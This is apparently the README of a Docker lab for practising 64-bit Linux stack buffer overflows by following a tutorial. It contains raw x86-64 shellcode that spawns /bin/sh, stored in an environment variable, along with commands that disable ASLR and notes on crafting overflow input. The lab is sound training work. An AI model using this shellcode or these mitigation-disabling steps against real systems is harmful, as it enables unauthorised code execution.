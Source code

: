 # Minimal Docker Env for Buffer Overflow Test

## Usage

```shell
# build environment
make

# launch and attach container
make launch-container

# (in container) launch gdb
$ gdb

# load file which wants to execute
gdb-peda$ exec-file <path/to/file>

# execute with STDIN
gdb-peda$ r < <path/to/input/file>

# quit gdb
gdb-peda$ quit

# IMPORTANT: turn off address randomization of ENV
$ sudo sysctl -w kernel.randomize_va_space=0

# /bin/sh on stack
$ export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

Refer tutorial if you want to do something another...

---

original README:

## Intro

I followed the tutorial
[Part
1](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/),[Part
2](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/), and [Part
3](https://blog.techorganic.com/2016/03/18/64-bit-linux-stack-smashing-tutorial-part-3/). 
The exploitable code from the tutorials are
[stacksmash](./stacksmash). Associated tools and utilities
have been added to this repo and will be put into the image
once it is built with the docker build command. The one
thing that is dynamic is the location of the ENV variable
for the attack.

## Build Container

```bash
sudo docker build -t ndd/427hax .
```

## Launch The Container 

```bash
sudo docker run --privileged -it ndd/427hax /bin/bash
```

## Build attacks

Make the stacksmash directory.

## Build Input Files

You want to generate strings for input to overflow the buffer. These can be
generated by the [input/genvalidptrret.py](./input/genvalidptrret.py). Note that
this file doesn't generate the 400 A file or the 400 input patter with the BBBBB
at the 104 offset (I created in400A.txt and in400safe.txt for these in the repo
if you want). You can get that by modifying the script or looking at the blog
post. Also note that you need to find the right env location of the injected
shellcode before generating the workable input string that will transition
control properly.

## Constraints

Note that if you have security solutions turned on they will defeat your
attack. 

1. Address space layout randomization can be disabled by issuing the following
command: 

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

But only if you've given proper authority to the conainter through privileged
creation with the `--privileged` flag. 

2. Do not do canary

3. Do not do non-executable stack

Please look at the stacksmash [Makefile](./stacksmash/Makefile) for how these
are generated.

## Lecture Sequence

I went through the sequence of operations as indicated in
[lecture](./lecture.md). This is somewhat a follow along with the blog post and
may be of interest.

## Useful Background

### X86-64 Calling Convenctions

From [stack
overlow](https://stackoverflow.com/questions/28601414/calling-c-function-from-x64-assembly-with-registers-instead-of-stack):

> Passing arguments to variadic functions is more
> complicated. See x86-64 ELF ABI, section 3.5.7. Otherwise,
> x86-64 passes its first 6 arguments using registers: %rdi,
> %rsi, %rdx, %rcx, %r8, %r9 (excluding float / vector
> arguments).

> From the specification, %rax = 0 means that the variable
> argument list has no (0) floating-point arguments passed in
> vector registers. Your approach is wrong, as the first
> argument (e.g., the nul-terminated string: "Hello\n") must
> be passed in %rdi, and %rax must be zero when the function
> is called.


